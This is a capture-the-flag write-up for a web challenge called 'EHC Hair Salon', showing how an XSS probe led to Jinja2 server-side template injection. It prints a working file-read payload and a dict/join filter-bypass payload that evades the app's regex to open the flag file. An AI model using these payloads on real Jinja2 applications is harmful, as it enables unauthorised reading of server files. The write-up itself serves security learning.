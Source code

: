 # EHC Hair Salon

![](./media/1.png)

**Category:** Web Exploitation

**Source code:**
[app.py](./media/app.py)

---

## 1. Analyze:

Messing around with the page, we can see a POST form in the main page.

![2](./media/2.png)

I tried insert a string: `aaaaa` and here's what I got.

![3](./media/3.png)

After inserting javascript, in this case: `<script>alert(1)</script>`, we can see that this page XSS vulnerability.

![4](./media/4.PNG)

From what I have learned, [XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) can possibly leads to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). We also know that we are unable to use any of these characters:

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
```

## 2. Payload
Basically, the idea is to inject the following payload to read flag.

```
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
But we can't do that, since it would trigger this:
```python
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)
```
Then, the `error_page` would be rendered instead. After some research, I found this payload from a CTF write-up which can bypass the `regex` filter:
```
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

Submit the payload and we get: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`
## References
[SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file)

[Final payload](https://hackmd.io/@d4rkp0w4r/idekCTF-2021#Baby-JinJail-and-jinjail)
